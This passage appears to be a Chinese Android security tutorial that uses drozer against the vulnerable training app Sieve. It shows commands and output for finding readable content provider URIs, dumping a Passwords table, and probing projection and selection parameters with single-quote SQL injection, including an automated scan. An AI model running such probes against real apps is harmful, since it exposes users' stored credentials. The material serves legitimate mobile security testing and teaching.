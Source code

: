 用scanner命令获取所有可访问的uri：

```c
dz> run scanner.provider.finduris -a com.mwr.example.sieve
Scanning com.mwr.example.sieve...
Unable to Query  content://com.mwr.example.sieve.DBContentProvider/
Unable to Query  content://com.mwr.example.sieve.FileBackupProvider/
Unable to Query  content://com.mwr.example.sieve.DBContentProvider
Able to Query    content://com.mwr.example.sieve.DBContentProvider/Passwords/
Able to Query    content://com.mwr.example.sieve.DBContentProvider/Keys/
Unable to Query  content://com.mwr.example.sieve.FileBackupProvider
Able to Query    content://com.mwr.example.sieve.DBContentProvider/Passwords
Unable to Query  content://com.mwr.example.sieve.DBContentProvider/Keys

Accessible content URIs:
  content://com.mwr.example.sieve.DBContentProvider/Keys/
  content://com.mwr.example.sieve.DBContentProvider/Passwords
  content://com.mwr.example.sieve.DBContentProvider/Passwords/
```

请求uri，获取数据：

```c
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --vertical  // 默认显示在一行里，添加--vertical可以改变为列显示
     _id          1
 service       1
username
password  pungdhh3ppym6eB2GHemnJ2RbuiiI46E8VoljGDPlIk= (Base64-encoded)
   email        1

```

检测sql注入问题：

```c
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "'"    // projection-> column，插入单引号，报错，SQL注入问题存在
unrecognized token: "' FROM Passwords" (code 1): , while compiling: SELECT ' FROM Passwords
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --selection "'"     // selection-> 条件语句,插入单引号，报错，SQL注入问题存在
unrecognized token: "')" (code 1): , while compiling: SELECT * FROM Passwords WHERE (')
```

用scanner模块自动检测sql注入：

```c
dz> help scanner.provider.injection // 查看帮助
usage: run scanner.provider.injection [-h] [-a <package or uri>]

Search for content providers with SQL Injection vulnerabilities.

dz> run scanner.provider.injection -a content://com.mwr.example.sieve.DBContentProvider/Passwords // 扫描content
Not Vulnerable:
  No non-vulnerable URIs found.

Injection in Projection: // column 存在注入
  content://com.mwr.example.sieve.DBContentProvider/Passwords

Injection in Selection: // selection 存在注入
  content://com.mwr.example.sieve.DBContentProvider/Passwords

dz> run scanner.provider.injection -a com.mwr.example.sieve    // 直接扫描包名，看看是否存在注入
Scanning com.mwr.example.sieve...
Not Vulnerable:
  content://com.mwr.example.sieve.DBContentProvider/Keys
  content://com.mwr.example.sieve.DBContentProvider/
```
